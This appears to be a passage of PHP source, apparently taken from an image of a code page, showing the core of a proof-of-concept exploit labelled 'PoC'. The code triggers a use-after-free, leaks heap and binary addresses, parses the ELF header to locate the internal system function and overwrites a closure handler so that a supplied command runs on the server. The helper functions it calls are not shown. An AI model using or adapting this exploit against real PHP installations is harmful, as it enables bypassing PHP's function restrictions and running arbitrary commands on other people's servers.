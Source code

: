 ```php
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

```